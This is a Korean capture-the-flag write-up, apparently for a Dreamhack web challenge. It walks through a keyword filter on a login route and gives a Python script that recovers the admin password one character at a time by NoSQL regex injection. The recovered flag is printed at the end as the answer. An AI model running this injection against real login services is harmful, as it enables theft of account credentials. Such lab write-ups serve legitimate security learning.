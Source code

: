 문제는 **이 문제는 데이터베이스에 저장된 플래그를 획득하는 문제입니다. 플래그는 admin 계정의 비밀번호 입니다. 플래그의 형식은 DH{...} 입니다. {'uid': 'admin', 'upw': 'DH{32alphanumeric}'}**  
먼저 코드를 보겠습니다.  
<img src="1.jpg">  
이번에는 파이썬이 아니라 자바스크립트 파일입니다.  
먼저 path 에 따라 나누겠습니다.  
(1) <img src="2.jpg">  
(2) <img src="3.jpg">  
1. /
위의 그림처럼 **/login?uid=guest&upw=guest** 를 화면에 출력합니다.  
2. /login
위의 그림은 **/login?uid=guest&upw=guest** 를 적은 상황인데, 이렇게 **uid를 화면에 출력** 합니다.

/login 의 작동방식을 간단히 보면
1. request query 를 **filter 함수**에 넣는다.  
2. filter 함수에서는 request query 를 JSON으로 만들고 **admin, dh, admi 가 들어갔는지 확인**해서, 있다면 filter 처리합니다.  
3. 만약 filter 함수를 잘 통과했다면, user 콜렉션에서 **입력한 uid, upw 가 있는지 확인**해서 **있다면 uid를 화면에 출력**한다.  
즉, 위에 있던 그림은 uid, upw가 guest 인 것을 찾았기 때문에 uid인 guest 를 출력합니다.

그래서 **/login?uid=admin&upw=flag 값** 을 적으면 끝이다.  
그러나 코드에서 힌트를 보면 32자리이고 숫자, 영문자가 들어간다.  
즉, 한 자리씩 찾으면 됩니다.  
처음에 burf suite 를 사용해서 찾으려 했지만, 브루트포스를 하는 데 생각보다 오래 걸려서 python으로 하나씩 찾았습니다.  

```python
import requests

# char 에 flag에 들어갈 수 있는 모든 문자를 다 넣음(숫자, 영문자)
char = []
for i in range(48, 58):
    char.append(chr(i))

for i in range(65, 91):
    char.append(chr(i))

for i in range(97, 123):
    char.append(chr(i))

# flag가 들어갈 공간
flag = ""

# DH{flag(32자리)} 에서 32자리를 찾아야하므로, 32번 반복
for i in range(32):
    for j in range(len(char)):
        # uid[$regex]=ad.in -> ad(아무 글자)in 을 의미함(정규표현식으로 filter을 우회함)
        # upw[$regex]=D.{{{flag}{char[j]} -> D(아무글자(H)){ flag(현재 찾은 flag) char[j](현재 확인하고 있는 글자) }
        response = requests.get(f'http://host3.dreamhack.games:23479/login?uid[$regex]=ad.in&upw[$regex]=D.{{{flag}{char[j]}')

        # 만약 response message의 text에 admin이 있다면, 현재 flag의 일부(혹은 전부)가 맞다는 뜻이므로 현재 확인한 글자를 flag에 추가하고 break
        if 'admin' in response.text:
            flag += char[j]
            break

# flag 출력
print(f"DH{{{flag}}}")
```

<img src="4.jpg">     위의 코드를 실행하면, 다음과 같이 flag 가 나옵니다.   
따라서 정답은 **DH{89e50fa6fafe2604e33c0ba05843d3df}** 입니다.  
